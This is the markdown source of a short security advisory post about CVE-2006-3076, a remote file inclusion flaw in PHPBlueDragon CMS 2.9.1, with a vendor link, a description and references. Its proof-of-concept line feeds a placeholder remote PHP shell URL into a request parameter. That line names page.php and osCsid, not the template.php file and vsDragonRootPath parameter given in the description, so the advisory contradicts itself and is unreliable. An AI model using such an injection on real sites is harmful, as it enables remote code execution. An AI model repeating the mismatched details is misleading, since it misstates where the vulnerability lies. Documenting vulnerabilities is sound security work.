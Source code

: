 ```yaml
---
layout: post
title:  "CVE-2006-3076 – PHPBlueDragon CMS 2.9.1 Remote File Inclusion"
date:   2006-06-14 00:00:00
categories: security cve
permalink: post/CVE-2006-3076-phpbluedragon-cms-remote-file-inclusion/
---
```


### Vendor

[http://phpbluedragon.net/][phpbluedragoncms]

[phpbluedragoncms]:	http://phpbluedragon.net/	"PHPBlueDragonCMS"

> PHP Blue Dragon CMS is a web-based content management system implemented in PHP.

### Description

PHP remote file inclusion vulnerability in `software_upload/public_includes/pub_templates/vphptree/template.php` in `PHPBlueDragon CMS 2.9.1` allows remote attackers to execute arbitrary PHP code via a URL in the vsDragonRootPath parameter.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/shop/page.php?osCsid=
**~**

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076][mitre]
* [http://www.securityfocus.com/bid/18440][securityfocus]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076 "CVE-2006-3076"
[securityfocus]:	http://www.securityfocus.com/bid/18440						"SecurityFocus-18440"
